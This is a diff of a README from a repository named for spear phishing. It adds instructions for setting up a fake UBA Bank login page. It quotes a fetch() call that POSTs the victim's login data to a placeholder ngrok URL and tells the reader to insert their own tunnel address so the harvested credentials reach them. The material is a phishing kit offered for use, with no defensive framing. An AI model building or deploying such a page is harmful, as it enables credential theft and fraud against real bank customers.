

Before and after one commit to CIPHER0930/uba_spear_phishing_WIZARD, a Markdown page: README.md, the part around the change. Shown: that part at 95% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -2,6 +2,35 @@
 #############################################################################################################################
 # uba_spear_phishing_WIZARD
 
+NB:
+# UBA Bank Login Page
+
+This repository contains the HTML code for a UBA Bank login page. To make the login form work, you need to replace the placeholder `https://ngrok-url.com/login` in the HTML script with your actual ngrok URL.
+
+**Steps to add your ngrok URL:**
+
+1. Open the `index.html` file in a text editor or any editor.
+
+2. Locate the following line:
+
+```html
+fetch('https://YOUR_NGROK_URL_HERE/login', {
+  method: 'POST',
+  headers: {
+    'Content-Type': 'application/json'
+  },
+  body: JSON.stringify(loginData)
+})
+
+
+3. Replace `YOUR_NGROK_URL_HERE` with your actual ngrok URL.
+
+4. Save the `index.html` file.
+
+Once you have replaced the placeholder URL with your ngrok URL, you can deploy the login page to a web server or use ngrok to create a public URL for your local development server.
+
+#№#####################*##
+script can be seen below ..
 
 
 
````
